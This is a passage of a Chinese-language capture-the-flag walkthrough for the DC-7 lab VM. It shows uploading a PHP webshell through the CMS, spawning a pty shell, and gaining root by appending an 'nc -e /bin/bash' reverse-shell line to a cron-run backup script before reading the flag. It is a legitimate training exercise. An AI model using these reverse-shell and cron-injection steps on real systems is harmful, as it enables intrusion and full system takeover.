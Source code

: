 ![upload successful](https://lnng.top/images/pasted-262.png)

**upload successful**

![upload successful](https://lnng.top/images/pasted-263.png)

**upload successful**

  
随便写个木马  

![upload successful](https://lnng.top/images/pasted-265.png)

**upload successful**

  
注意下面的text format要选择php code  
然后蚁剑连接即可  

![upload successful](https://lnng.top/images/pasted-266.png)

**upload successful**

  
再反弹给kali吧，其实可以直接再webshell中反弹shell  

![upload successful](https://lnng.top/images/pasted-267.png)

**upload successful**

  
反弹交互shell

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

然后将反弹shell的脚本写入定时启动的sh中，反弹root的shell

```
echo "nc -e /bin/bash 192.168.124.139 7777" >>  /opt/scripts/backups.sh
```

![upload successful](https://lnng.top/images/pasted-268.png)

**upload successful**

  
读取flag

```
cd /root
ls
theflag.txt
cat theflag.txt

888       888          888 888      8888888b.                             888 888 888 888 
888   o   888          888 888      888  "Y88b                            888 888 888 888 
888  d8b  888          888 888      888    888                            888 888 888 888 
888 d888b 888  .d88b.  888 888      888    888  .d88b.  88888b.   .d88b.  888 888 888 888 
888d88888b888 d8P  Y8b 888 888      888    888 d88""88b 888 "88b d8P  Y8b 888 888 888 888 
88888P Y88888 88888888 888 888      888    888 888  888 888  888 88888888 Y8P Y8P Y8P Y8P 
8888P   Y8888 Y8b.     888 888      888  .d88P Y88..88P 888  888 Y8b.      "   "   "   "  
888P     Y888  "Y8888  888 888      8888888P"   "Y88P"  888  888  "Y8888  888 888 888 888 


Congratulations!!!

Hope you enjoyed DC-7.  Just wanted to send a big thanks out there to all those
who have provided feedback, and all those who have taken the time to complete these little
challenges.

```